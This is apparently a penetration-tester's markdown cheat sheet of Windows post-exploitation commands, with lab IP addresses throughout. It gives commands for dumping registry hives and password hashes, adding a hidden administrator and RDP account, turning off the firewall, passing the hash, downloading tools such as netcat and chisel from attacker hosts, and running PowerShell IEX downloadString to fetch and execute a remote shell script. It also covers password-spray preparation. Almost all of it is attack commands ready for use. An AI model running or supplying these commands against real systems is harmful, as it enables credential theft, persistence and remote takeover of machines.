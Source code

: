 ### Dump hashes
````
reg save hklm\sam .\sam
reg save hklm\system .\system
reg save hklm\security .\security

secretsdump.py -sam sam -system system -security security LOCAL > hashes.txt
````
### Add RDP user
````
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
````
### Turn off firewall 
````
NetSh Advfirewall set allprofiles state off
````

#### Pass the hash
````
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cb
e81fe00 //10.129.26.210 cmd.exe

````


#### Ping test blind rce
```sh
C:\Windows\System32\cmd.exe /c ping 10.10.14.27
# on linux box: 
tcpdump -i tun0 icmp
```


#### Ping test blind rce like above check if x64 powershell exists
```sh
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe ping 10.10.14.27
```

#### Download files
```bash
certutil.exe -urlcache -split -f http://10.10.14.10:8000/nc64.exe C:\\Users\\Public\\nc64.exe

powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/
/10.11.0.4/wget.exe','C:\Users\admin\Desktop\wget.exe')"

powershell iwr -uri http://10.10.16.97:8000/chisel.exe -outfile ch.exe # also works in PS ConstrainLanguageMode

expand http://10.10.14.10:8000/watson.exe C:\\Users\\Public\\watson.exe

bitsadmin /transfer debjob /download /priority normal http://10.10.14.10:8000/watson.exe C:\Users\\Public\watson.exe

```

#### md5checksum
```
certutil.exe -hashfile Taihou64.exe MD5
```

#### Alternate Data streams 
````
dir /R file.txt - to check 
expand hm.txt:root.txt root.txt
powershell -command " Get-Content C:\ADS\1.txt -Stream file.exe -Raw"


````

#### List directory permissions (win server 2003)
```sh
icacls c:\*. /C
```


#### List alternate data stream files
```sh
dir /r
```

#### Mount windows account share using cifs, "ACCT here is account share name"
```bash
sudo mount -t cifs -o username=Finance //10.1.1.1/ACCT /mnt/win_share/
```

#### Mount vhd file from share
```bash
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector -ro -v /path/to/mount/directory
```


#### Executing privileged command using valid credentials from powershell
```sh
$username = "Username\Administrator"
$password = "SUPERSECRETPASS"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8000/shell.ps1') } -Credential $cred -Computer localhost

or - [BETTER]
$username = "Username\Administrator"
$password = ConvertTo-SecureString -AsPlainText -Force 'SUPERSECRETPASS'
$cred = New-Object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.97:8000/shell.ps1')" -Credential $cred

```


#### Logging into the privileged user account using valid credentials from powershell
```sh
$username = 'Username\Administrator'
$securePassword = ConvertTo-SecureString -AsPlainText -Force 'SUPERSECRETPASS'
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Enter-PSSession -ComputerName localhost -Credential $credential
```


#### Dump password policy to prepare wordlist for password spray if smb null authentication allows domain enumeration.
```sh
crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''
```
#### Check account lock policy before password spraying smb
```bash
crackmapexec smb 10.10.10.123 --pass-pol
```

